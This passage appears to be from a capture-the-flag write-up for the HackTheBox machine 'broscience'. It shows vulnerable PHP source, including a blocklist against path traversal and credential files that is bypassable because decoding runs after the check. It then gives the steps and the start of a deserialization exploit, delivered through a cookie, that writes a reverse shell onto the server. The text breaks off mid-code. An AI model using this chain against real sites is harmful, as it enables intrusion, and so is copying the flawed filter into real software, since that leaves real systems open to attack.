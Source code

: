 ```php
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

- `img.php`
	- The `$ImgPath` will then be url-decoded.

```php
<?php
if (!isset($_GET['path'])) {
    die('<b>Error:</b> Missing \'path\' parameter.');
}

// Check for LFI attacks
$path = $_GET['path'];

$badwords = array("../", "etc/passwd", ".ssh");
foreach ($badwords as $badword) {
    if (strpos($path, $badword) !== false) {
        die('<b>Error:</b> Attack detected.');
    }
}

// Normalize path
$path = urldecode($path);

// Return the image
header('Content-Type: image/png');
echo file_get_contents('/var/www/html/images/' . $path);
?>
```

- `cookie.php`
	- Reference:
		- [[https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a]]
	- The code below will require a reverse server up and listening and a `php` reverse shell at `rev.php`.
	- The `rev.php` reverse-shell will be written to disk. 
	- You will then have to manually change the `user-prefs` cookie in the `applications` tab of the developer console.
	- Ensure you have an active server up with `rev.php`
		- `python -m http.server` 
	- Change the background to `light` or `dark`.
	- You will then be able to access the shell at `https://broscience.htb/rev.php`

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
```